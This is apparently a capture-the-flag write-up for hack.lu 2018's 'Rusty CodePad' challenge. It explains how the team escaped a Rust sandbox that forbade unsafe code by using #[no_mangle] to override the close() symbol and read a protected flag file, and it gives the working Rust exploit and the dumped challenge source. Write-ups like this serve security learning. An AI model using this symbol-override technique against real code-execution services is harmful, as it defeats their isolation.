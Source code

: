 # hacklu CTF 2018 - Rusty CodePad

```
I heard Rust is a safe programming language.
So I built this CodePad where you can compile and run safe Rust code.
```

## Initial Situation

We had access to a web-terminal with a limited set of commands:

```sh
$ help
help - print this help
clear - clear screen
ls - list files
cat - print file content
rusty - compile rusty code
version - print version
```

Calling ```ls``` reveals a Rust project file structure and a file called ```flag.txt```:

```
$ ls
flag.txt
target
src
lib
rusty.sh
Cargo.toml
```

Now, running ```cat``` on ```flag.txt``` would just return ```*REDACTED*```. Parts of the main rust source file have also been redacted:

```rust
extern crate code;
use code::code;
// *REDACTED*
fn main() {
    // let flag = *REDACTED*;
    code();
}
```

This means, the flag should be somewhere in the memory of the program as well. The ```rusty``` command lets us upload a ```lib.rs``` file, allowing us to provide the contents for the ```code``` lib, but disallowing unsafe code usage within the library:

```sh
$ cat rusty.sh
#!/bin/sh
echo "$CODE" > ./lib/code/src/lib.rs
RUSTFLAGS="-F unsafe-code" cargo +$VERSION build -p code && cargo +$VERSION run
```

## Solution

Now we first tried to open the flag file with ```std::fs::File::open()```, but didn't succeed. Even with correct error handling and ```catch_unwind()``` the program still crashed without notice; for other functionality involving syscalls as well. So we figured there might have been a seccomp filter been applied. 

We remembered a certain issue, whereas a redefinition of ```read()``` or ```write()``` would result in the override of these functions during the linking phase, without warning. We couldn't find the exact issue/reddit post, but [this issue](https://github.com/rust-lang/rust/issues/28179) describes the problems with ```#[no_mangle]```, which is not treated as unsafe, but can be used to write horribly unsafe code.

We then proceeded to override ```read()``` and other syscalls without a clear direction to just try out certain things. One of us pointed out, since the flag is stored in a file, it is probably read at the start of the program, before seccomp filters are enabled. When dumping the ```read()``` file descriptor, we could see that there was indeed an open file descriptor other than stdin/stdout. Now it was only a matter of finding the correct syscall to override (since we couldn't read the file anymore if we override read). We picked ```close()```, read the file, dumped the flag and then killed the program:

```rust
#[no_mangle]
pub extern fn close() {
    use std::io::Read;
    
    if let Ok(mut f) = std::fs::File::open("flag.txt") {
        let mut flag = String::new();
        f.read_to_string(&mut flag).unwrap();
        println!("{}", flag);
        std::process::exit(0);
    }
}

pub fn code() { }
```

## Additional Info

The same method also allowed us to dump the ```src/main.rs``` file and to see, that this probably wasn't the intended solution:

```rust
extern crate libc;
extern crate rand;
extern crate code;
use std::char;
use std::fs::File;
use std::io::prelude::*;
use libc::{prctl, PR_SET_SECCOMP, SECCOMP_MODE_STRICT};
use rand::random;
use code::code;
#[derive(Debug)]
struct CryptedChar {
    character: u32,
    key: u32,
}
impl CryptedChar {
    fn new(character: char) -> CryptedChar {
        let key: u32 = random();
        CryptedChar {
            character: character as u32 ^ key,
            key
        }
    }
    fn from_u8(character: u8) -> CryptedChar {
        CryptedChar::new(char::from_u32(character as u32).unwrap_or_else(|| '?'))
    }
}
fn main() {
    // read crypted flag
    let mut flag = vec![];
    {
        let mut c = [0u8; 1];
        let mut file = File::open("flag.txt")
            .expect("could not open flag");
        while let Ok(_) = file.read_exact(&mut c) {
            flag.push(CryptedChar::from_u8(c[0]))
        }
    }
    // filter syscalls
    let ret = unsafe { prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT) };
    if ret != 0 {
        panic!("Unable to activate seccomp");
    }
    // execute code
    code();
}
```
